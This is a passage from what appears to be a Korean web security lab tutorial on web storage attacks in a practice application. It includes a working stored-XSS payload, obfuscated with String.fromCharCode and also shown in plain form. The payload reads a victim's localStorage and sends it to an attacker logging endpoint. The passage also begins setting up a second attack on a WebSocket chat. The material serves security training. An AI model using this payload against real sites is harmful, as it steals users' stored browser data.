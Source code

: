

4. 해커가 http://openeg.com:8181/openeg/login.do로 접속하여 게시판에 글 등록을 한다. (등록할 글이 너무 길어서 컬럼 사이즈를 늘려야 함 : `alter table board modify content VARCHAR(6000) ;` )
   제목 : 로컬 스토리지에 정보를 빼내가는 것이 절대 아닙니다 !!!

   내용 : 

   ```html
   <br/><script>document.write(String.fromCharCode(60,115,99,114,105,112,116,62,10,9,118,97,114,32,111,117,116,112,117,116,32,61,32,34,34,59,10,9,105,102,32,40,119,105,110,100,111,119,46,108,111,99,97,108,83,116,111,114,97,103,101,41,32,123,10,9,32,32,32,32,105,102,32,40,108,111,99,97,108,83,116,111,114,97,103,101,46,108,101,110,103,116,104,41,32,123,10,9,32,32,32,32,32,32,32,102,111,114,32,40,118,97,114,32,105,32,61,32,48,59,32,105,32,60,32,108,111,99,97,108,83,116,111,114,97,103,101,46,108,101,110,103,116,104,59,32,105,43,43,41,32,123,10,9,32,32,32,32,32,32,32,32,32,32,32,111,117,116,112,117,116,32,43,61,32,108,111,99,97,108,83,116,111,114,97,103,101,46,107,101,121,40,105,41,32,43,32,39,58,32,39,32,43,32,108,111,99,97,108,83,116,111,114,97,103,101,46,103,101,116,73,116,101,109,40,108,111,99,97,108,83,116,111,114,97,103,101,46,107,101,121,40,105,41,41,32,43,32,39,60,98,114,47,62,39,59,10,9,32,32,32,32,32,32,32,125,10,9,32,32,32,32,125,32,101,108,115,101,32,123,10,9,32,32,32,32,32,32,32,111,117,116,112,117,116,32,43,61,32,39,110,111,32,100,97,116,97,33,39,59,10,9,32,32,32,32,125,10,9,125,32,101,108,115,101,32,123,10,9,32,32,32,32,111,117,116,112,117,116,32,43,61,32,39,110,111,116,32,115,117,112,112,111,114,116,33,39,10,9,125,10,9,10,9,110,101,119,32,73,109,97,103,101,40,41,46,115,114,99,32,61,32,34,104,116,116,112,58,47,47,111,112,101,110,101,113,46,99,111,109,58,56,49,56,49,47,111,112,101,110,101,103,47,119,101,98,115,116,111,114,97,103,101,47,104,97,99,107,101,114,115,47,108,111,103,103,105,110,103,46,106,115,112,63,115,61,34,43,101,110,99,111,100,101,85,82,73,67,111,109,112,111,110,101,110,116,40,111,117,116,112,117,116,41,59,10,60,47,115,99,114,105,112,116,62))</script>
   
   <!-- 내용 -->
   <!--<script>	var output = "";	if (window.localStorage) {	  if (localStorage.length) {	    for (var i = 0; i < localStorage.length; i++) {	      output += localStorage.key(i) + ': ' + localStorage.getItem(localStorage.key(i)) + '<br/>';	    }	  } else {	    output += 'no data!';	  }	} else {	  output += 'not support!'	}		new Image().src = "http://openeq.com:8181/openeg/webstorage/hackers/logging.jsp?s="+encodeURIComponent(output);</script>-->
   ```

   

5. 2번에서 사용하던 크롬에서 http://openeg.com:8181/openeg/login.do로 접속하여 관리자 계정으로 로그인한 뒤 게시판에 있는 해커가 등록한 글을 읽으면 자신의 로컬 스토리지에 있는 정보를 해커에게로 전송하게 된다.



6. 해커머쉰의 콘솔에 희생자의 로컬 스토리지 정보가 출력된다.



###### 웹소켓으로 채팅하고 있는 사용자의 정보를 빼내가는 웹스토리지 공격

1. ###### tomcat7를 stop한다

   

2. 8080포트를 사용하고 있는 WebSocket 프로젝트의 server.xml에서 포트를 8181로 바꾸고 index.html의 18행의 localhost:8080을 openeg.com:8181로 바꾸고 41행에 다음을 추가한다.
   	`localStorage.content =textarea.value;`



3. tomcat8을 가동하여 WebSocket 프로젝트가 가동되도록 한다.
